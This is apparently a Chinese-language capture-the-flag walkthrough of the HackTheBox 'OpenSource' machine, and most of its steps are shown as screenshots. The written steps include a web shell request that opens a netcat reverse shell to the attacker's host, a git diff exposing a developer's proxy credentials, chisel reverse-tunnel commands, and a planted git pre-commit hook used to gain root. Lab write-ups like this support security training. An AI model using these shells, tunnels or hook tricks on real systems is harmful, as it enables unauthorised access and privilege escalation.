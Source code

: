 ```yaml
---
layer: article
title: hackthebox OpenSource
tags: pentest hackthebox Walkthrough 
---
```


靶机链接：<https://app.hackthebox.com/machines/OpenSource>

## 环境配置

| 名称             | IP           |
| ---------------- | ------------ |
| OpenSource       | 10.10.11.164 |
| Kali Linux       | 10.10.14.8   |
| My Ubuntu Server | 192.168.1.13 |

![1](https://static.iihack.com/hackthebox/machines/OpenSource/1.jpg)



![2](https://static.iihack.com/hackthebox/machines/OpenSource/2.jpg)





![3](https://static.iihack.com/hackthebox/machines/OpenSource/3.jpg)



![4](https://static.iihack.com/hackthebox/machines/OpenSource/4.jpg)



![5](https://static.iihack.com/hackthebox/machines/OpenSource/5.jpg)



![6](https://static.iihack.com/hackthebox/machines/OpenSource/6.jpg)



![7](https://static.iihack.com/hackthebox/machines/OpenSource/7.jpg)

![8](https://static.iihack.com/hackthebox/machines/OpenSource/8.jpg)





```http
http://10.10.11.164/shell?cmd=nc 10.10.14.8 444 -e /bin/sh
```

![9](https://static.iihack.com/hackthebox/machines/OpenSource/9.jpg)



```bash
$ git checkout dev
$ git diff c41fedef2ec6df98735c11b2faf1e79ef492a0f3 a76f8f75f7a4a12b706b0cf9c983796fa1985820
diff --git a/.gitignore b/.gitignore
deleted file mode 100644
index e50a290..0000000
--- a/.gitignore
+++ /dev/null
@@ -1,26 +0,0 @@
-.DS_Store
-.env
-.flaskenv
-*.pyc
-*.pyo
-env/
-venv/
-.venv/
-env*
-dist/
-build/
-*.egg
-*.egg-info/
-_mailinglist
-.tox/
-.cache/
-.pytest_cache/
-.idea/
-docs/_build/
-.vscode
-
-# Coverage reports
-htmlcov/
-.coverage
-.coverage.*
-*,cover
diff --git a/Dockerfile b/Dockerfile
index 0875eda..76c7768 100644
--- a/Dockerfile
+++ b/Dockerfile
@@ -29,7 +29,7 @@ ENV PYTHONDONTWRITEBYTECODE=1
 
 # Set mode
 ENV MODE="PRODUCTION"
-ENV FLASK_DEBUG=1
+# ENV FLASK_DEBUG=1
 
 # Run supervisord
 CMD ["/usr/bin/supervisord", "-c", "/etc/supervisord.conf"]
diff --git a/app/.vscode/settings.json b/app/.vscode/settings.json
new file mode 100644
index 0000000..5975e3f
--- /dev/null
+++ b/app/.vscode/settings.json
@@ -0,0 +1,5 @@
+{
+  "python.pythonPath": "/home/dev01/.virtualenvs/flask-app-b5GscEs_/bin/python",
+  "http.proxy": "http://dev01:Soulless_Developer#2022@10.10.10.128:5187/",
+  "http.proxyStrictSSL": false
+}

```

发现用户名密码




```
┌──(kali㉿kali)-[~/]
└─$ sudo ./chisel_1.7.7_linux_amd64 server --port 3000 -v --reverse --socks5

┌──(vict㉿target)-[~/tmp]
└─$ ./chisel_1.7.7_linux_amd64 client 10.10.14.8:3000 R:5000:socks

```

![10](https://static.iihack.com/hackthebox/machines/OpenSource/10.jpg)

![11](https://static.iihack.com/hackthebox/machines/OpenSource/11.jpg)



## 提权

![12](https://static.iihack.com/hackthebox/machines/OpenSource/12.jpg)









```
$ cat /home/dev01/.git/hooks/pre-commit

#!/bin/bash
touch /tmp/te
/usr/bin/python3 /tmp/r555.py
```





```
$ chmod +x  /home/dev01/.git/hooks/pre-commit
```



等定时任务执行后，就可以获得root shell成功

![13](https://static.iihack.com/hackthebox/machines/OpenSource/13.jpg)
